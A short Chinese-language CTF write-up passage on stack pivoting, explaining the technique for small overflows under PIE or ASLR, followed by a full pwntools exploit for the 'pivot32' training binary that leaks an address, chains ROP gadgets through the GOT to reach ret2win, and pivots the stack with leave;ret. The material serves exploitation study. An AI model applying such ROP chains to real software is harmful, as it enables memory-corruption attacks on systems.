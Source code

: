 如果遇到一种情况，我们可以控制的栈溢出的字节数比较小，不能完成全部的工作，同时程序开启了 PIE 或者系统开启了 ASLR，但同时在程序的另一个地方有足够的空间可以写入 payload，并且可执行，那么我们就将栈转移到那个地方去。

完整的 exp 如下：
```python
from pwn import *

#context.log_level = 'debug'
#context.terminal = ['konsole']
io = process('./pivot32')
elf = ELF('./pivot32')
libp = ELF('./libpivot32.so')

leave_ret = 0x0804889f

foothold_plt     = elf.plt['foothold_function'] # 0x080485f0
foothold_got_plt = elf.got['foothold_function'] # 0x0804a024

pop_eax      = 0x080488c0
pop_ebx      = 0x08048571
mov_eax_eax  = 0x080488c4
add_eax_ebx  = 0x080488c7
call_eax     = 0x080486a3

foothold_sym = libp.symbols['foothold_function']
ret2win_sym  = libp.symbols['ret2win']
offset = int(ret2win_sym - foothold_sym) # 0x1f7

leakaddr  = int(io.recv().split()[20], 16)

# calls foothold_function() to populate its GOT entry, then queries that value into EAX
#gdb.attach(io)
payload_1 = ""
payload_1 += p32(foothold_plt)
payload_1 += p32(pop_eax)
payload_1 += p32(foothold_got_plt)
payload_1 += p32(mov_eax_eax)
payload_1 += p32(pop_ebx)
payload_1 += p32(offset)
payload_1 += p32(add_eax_ebx)
payload_1 += p32(call_eax)

io.sendline(payload_1)

# ebp = leakaddr-4, esp = leave_ret
payload_2 = ""
payload_2 += "A"*40
payload_2 += p32(leakaddr-4) + p32(leave_ret)

io.sendline(payload_2)

print io.recvall()
```
